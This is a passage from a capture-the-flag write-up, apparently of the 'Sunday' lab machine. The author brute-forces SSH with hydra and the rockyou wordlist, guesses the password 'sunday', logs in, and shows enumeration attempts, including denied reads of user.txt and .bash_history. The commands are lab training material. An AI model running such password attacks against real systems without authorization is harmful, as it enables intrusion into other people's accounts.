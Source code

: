 ```
$ hydra -V -l sunny -P /usr/share/wordlists/rockyou.txt -e nsr -u -s 22022 -t 1 -o ./hydra.out ssh://10.10.10.76
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-09-10 11:12:46
[DATA] max 1 task per 1 server, overall 1 task, 14344402 login tries (l:1/p:14344402), ~14344402 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[ATTEMPT] target 10.10.10.76 - login "sunny" - pass "sunny" - 1 of 14344402 [child 0]
```

`hydra` was taking forever, so decided to do some guesses on my own to manually see
if I could get the password.. and eventually found it! (passwd: `sunday`). Eventually
`rockyou.txt` would've gotten me there.

```
$ ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=+diffie-hellman-group1-sha1
Password:
Last login: Mon Sep 10 15:34:39 2018 from 10.10.12.140
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ ls
Desktop  Documents  Downloads  local.cshrc  local.login  local.profile  Public
sunny@sunday:~$ pwd
/export/home/sunny
```

Searching around `sunny` home directory doesn't yield a `user.txt`, but eventually
we find another system user `sammy` which has what we want..

```
sunny@sunday:~$ ls ..
sammy  sunny
sunny@sunday:~$ ls ../sammy/
Desktop  Documents  Downloads  Public
sunny@sunday:~$ ls ../sammy/Desktop/
user.txt
sunny@sunday:~$ cd ../sammy/Desktop/
sunny@sunday:/export/home/sammy/Desktop$ cat user.txt
cat: user.txt: Permission denied
```

.. but we don't have permission to access it :-(

### SYSTEM ENUMERATION

Tried peaking at `.bash_history` to see if we could find any hints, but was blocked.

```
sunny@sunday:~$ ls -l .bash_history
-rw------- 1 root root 0 2018-04-24 09:10 .bash_history
sunny@sunday:~$ ls -l ../sammy/.bash_history
-rw------- 1 root root 0 2018-04-24 11:28 ../sammy/.bash_history
```
